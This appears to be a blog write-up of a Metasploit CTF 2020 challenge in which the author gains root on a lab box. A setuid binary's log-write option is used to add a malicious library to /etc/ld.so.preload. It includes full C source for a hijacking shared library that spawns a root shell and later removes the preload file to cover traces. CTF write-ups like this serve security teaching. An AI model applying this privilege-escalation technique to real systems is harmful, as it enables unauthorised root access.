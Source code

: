 ```yaml
---
layout: single
title:  "Metasploit CTF December 2020"
---
```


# Metasploit CTF December 2020

Over the last weekend I had a little time to participate in the Metasploit CTF 2020, and one particular challenge I found quite interesting mainly becuase the route I decided to take was probably a little different and a lot more involved but I wanted to test myself! So let's crack on...

## Challenge: Ace of Clubs

The challenge begins with an SSH server listening on port 9009, after connecting you're presented with a banner requesting you to login as admin, with a few simple guesses the password is 'password' and we get a shell with user or low privileges.

![alt text](https://ben0.github.io/msf-ctf-2020/9009_sshlogin.PNG "SSH port 9009")

After some enumeration we find the flag in /etc/ace_of_spades.jpg readable as root, and a binary /opt/vpn_connect with set user ID on execution, and the owner root - this must be the path to flag.

First lets see if the binary has any dependencies, using ldd we can see what shared objects are required by the binary, and this particular binary requires the library /usr/lib/libvpnauthcustom.so to run.

![alt text](https://ben0.github.io/msf-ctf-2020/9009_ldd.PNG "Library dependencies")

Using NM we can list the symbols in the files, grepping for T or t, symbols in the data section.

![alt text](https://ben0.github.io/msf-ctf-2020/9009_nm.PNG "Binary symbols")

Running the binary we're prompted with usage instructions, the binary requires a user, password, and a log path. Let see if we can get the username & password using GDB, I use pwndbg which is pretty great for any sort of reverse engineering, I highly recommened it. We can set the binary arguments, and set execute to break when it hits the authenticate function:

![alt text](https://ben0.github.io/msf-ctf-2020/9009_gdbstart.PNG "GDB")

Now we can step a few instructions, to the call to string compare where our user supplied input is being compared to the string 'username' - this must be the username!  Repeating this process we also get the password.

![alt text](https://ben0.github.io/msf-ctf-2020/9009_gdbusername.PNG "GDB")
![alt text](https://ben0.github.io/msf-ctf-2020/9009_gdbpassword.PNG "GDB")

Excellent, now we know the username and password surely we'll get the flag, let's run the binary with the correct username and password.... Fail, nothing happens. To save time let us see what we get with strace, a great utility to trace system calls.

![alt text](https://ben0.github.io/msf-ctf-2020/9009_strace.PNG "System trace")

The notable system calls here are `umask` which sets the file creation mask, then `openat` to get a file descriptor with the flags `O_WRONLY | O_CREAT`, write only or create if the file doesn't exist, then we see a few `write` calls with logging information followed by a `close` on the file descriptor.

As the binary is running as root we effectively have an arbitrary write to any file with the username and password which we control as well as the other junk, great! Here I tried to write to `/etc/passwd` or `/etc/shadow` but I couldn't get the format correct and I decided to get a root shell instead :-)

### Privilege escalation

The binary uses a shared library to provide the `authenticate` function which is dynamically loaded at run-time. The shared library is located in `/usr/lib/libvpnauthcustom.so` and we only have read permissions, how can we abuse this?

Linux provides functionality for preloading libraries through `LD_PRELOAD` and `/etc/ld.so.preload`, preloading allows a user to suppler a library which is loaded before other libraries. If we create and compile a library with a function named `authenticate` can we hijack the execution of the binary?

Here is rough (don't judge me!) sourcecode with a single function `authenticate` when called by the binary set the UID to 0 and calls system with `/bin/bash` giving us a root shell!  

```
cat > /tmp/exploit.c << "EOF"
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int authenticate(const char *str,const char *str1) {
    uid_t uid = getuid();
    uid_t euid = geteuid();
    printf("Uid: %i, Euid: %i\n",uid,euid);

    setuid(0);
    setgid(0);
    
    uid_t puid = getuid();
    uid_t peuid = geteuid();
    printf("Uid: %i, Euid: %i\n",puid,peuid);

    system("/bin/bash");
    return 0;
}
EOF
```
Compile the source code into a shared object:

![alt text](https://ben0.github.io/msf-ctf-2020/9009_payload_compile.PNG "Compiling exploit.c")

Then we can abuse the log functionalilty to write the string '/tmp/preload.so' to `/etc/ld.so.preload`:

![alt text](https://ben0.github.io/msf-ctf-2020/9009_write_ld_so_payload1.PNG "Abusing the -l switch")

If you look at the last image, you can see the errors produced by `ld.so` which is responsible for finding and loading shared libraries. Any shared libraries can be specificed seperated by white spaces so it's a fairly relaxed syntax, there are plenty of errors where `ld.so` can't find the library specificed but it still finds our malicious shared library and is preloaded when a binary in run. 

We've created and compiled a shared object library, abused the vpn_connect binary to add our library to `ld.so.preload`, running the binary now we get a shell as root!

![alt text](https://ben0.github.io/msf-ctf-2020/9009_exploit1.PNG "Exploit!")
![alt text](https://ben0.github.io/msf-ctf-2020/9009_exploit2.PNG "Exploit!")

### Next steps

The shared object isn't perfect, but we could improve it by removing some of the printf statements and deleting `/etc/ld.so.preload` to stop those nagging error messages:

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int authenticate(const char *str,const char *str1) {
    setuid(0);
    setgid(0);
    unlink("/etc/ld.so.preload");
    system("/bin/bash");
    return 0;
}
```
